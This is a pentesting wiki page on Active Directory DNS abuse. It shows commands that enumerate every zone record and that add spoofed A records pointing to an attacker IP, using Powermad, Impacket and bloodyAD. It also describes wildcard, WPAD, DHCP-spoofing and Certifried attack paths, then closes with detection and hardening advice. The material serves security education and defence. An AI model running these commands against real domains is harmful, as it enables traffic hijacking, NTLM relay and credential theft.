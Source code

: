 # AD DNS Records

{{#include ../../banners/hacktricks-training.md}}

By default **any user** in Active Directory can **enumerate all DNS records** in the Domain or Forest DNS zones, similar to a zone transfer (users can list the child objects of a DNS zone in an AD environment).

The tool [**adidnsdump**](https://github.com/dirkjanm/adidnsdump) enables **enumeration** and **exporting** of **all DNS records** in the zone for recon purposes of internal networks.

```bash
git clone https://github.com/dirkjanm/adidnsdump
cd adidnsdump
pip install .

# Enumerate the default zone and resolve the "hidden" records
adidnsdump -u domain_name\\username ldap://10.10.10.10 -r

# Quickly list every zone (DomainDnsZones, ForestDnsZones, legacy zones,…)
adidnsdump -u domain_name\\username ldap://10.10.10.10 --print-zones

# Dump a specific zone (e.g. ForestDnsZones)
adidnsdump -u domain_name\\username ldap://10.10.10.10 --zone _msdcs.domain.local -r

cat records.csv
```

>  adidnsdump v1.4.0 (April 2025) adds JSON/Greppable (`--json`) output, multi-threaded DNS resolution and support for TLS 1.2/1.3 when binding to LDAPS  

For more information read [https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/)

---

## Creating / Modifying records (ADIDNS spoofing)

Because the **Authenticated Users** group has **Create Child** on the zone DACL by default, any domain account (or computer account) can register additional records.  This can be used for traffic hijacking, NTLM relay coercion or even full domain compromise.

### PowerMad / Invoke-DNSUpdate (PowerShell)

```powershell
Import-Module .\Powermad.ps1

# Add A record evil.domain.local → attacker IP
Invoke-DNSUpdate -DNSType A -DNSName evil -DNSData 10.10.14.37 -Verbose

# Delete it when done
Invoke-DNSUpdate -DNSType A -DNSName evil -DNSData 10.10.14.37 -Delete -Verbose
```

### Impacket – dnsupdate.py  (Python)

```bash
# add/replace an A record via secure dynamic-update
python3 dnsupdate.py -u 'DOMAIN/user:Passw0rd!' -dc-ip 10.10.10.10 -action add -record evil.domain.local -type A -data 10.10.14.37
```

*(dnsupdate.py ships with Impacket ≥0.12.0)*

### BloodyAD

```bash
bloodyAD -u DOMAIN\\user -p 'Passw0rd!' --host 10.10.10.10 dns add A evil 10.10.14.37
```

---

## Common attack primitives

1. **Wildcard record** – `*.<zone>` turns the AD DNS server into an enterprise-wide responder similar to LLMNR/NBNS spoofing. It can be abused to capture NTLM hashes or to relay them to LDAP/SMB.  (Requires WINS-lookup to be disabled.)    
2. **WPAD hijack** – add `wpad` (or an **NS** record pointing to an attacker host to bypass the Global-Query-Block-List) and transparently proxy outbound HTTP requests to harvest credentials.  Microsoft patched the wildcard/ DNAME bypasses (CVE-2018-8320) but **NS-records still work**.    
3. **Stale entry takeover** – claim the IP address that previously belonged to a workstation and the associated DNS entry will still resolve, enabling resource-based constrained delegation or Shadow-Credentials attacks without touching DNS at all.    
4. **DHCP → DNS spoofing** – on a default Windows DHCP+DNS deployment an unauthenticated attacker on the same subnet can overwrite any existing A record (including Domain Controllers) by sending forged DHCP requests that trigger dynamic DNS updates (Akamai “DDSpoof”, 2023).  This gives machine-in-the-middle over Kerberos/LDAP and can lead to full domain takeover.    
5. **Certifried (CVE-2022-26923)** – change the `dNSHostName` of a machine account you control, register a matching A record, then request a certificate for that name to impersonate the DC. Tools such as **Certipy** or **BloodyAD** fully automate the flow.  

---

## Detection & hardening

* Deny **Authenticated Users** the *Create all child objects* right on sensitive zones and delegate dynamic updates to a dedicated account used by DHCP.
* If dynamic updates are required, set the zone to **Secure-only** and enable **Name Protection** in DHCP so that only the owner computer object can overwrite its own record.
* Monitor DNS Server event IDs 257/252 (dynamic update), 770 (zone transfer) and LDAP writes to `CN=MicrosoftDNS,DC=DomainDnsZones`.
* Block dangerous names (`wpad`, `isatap`, `*`) with an intentionally-benign record or via the Global Query Block List.
* Keep DNS servers patched – e.g., RCE bugs CVE-2024-26224 and CVE-2024-26231 reached **CVSS 9.8** and are remotely exploitable against Domain Controllers.  



## References

* Kevin Robertson – “ADIDNS Revisited – WPAD, GQBL and More”  (2018, still the de-facto reference for wildcard/WPAD attacks)  
* Akamai – “Spoofing DNS Records by Abusing DHCP DNS Dynamic Updates” (Dec 2023)
{{#include ../../banners/hacktricks-training.md}}
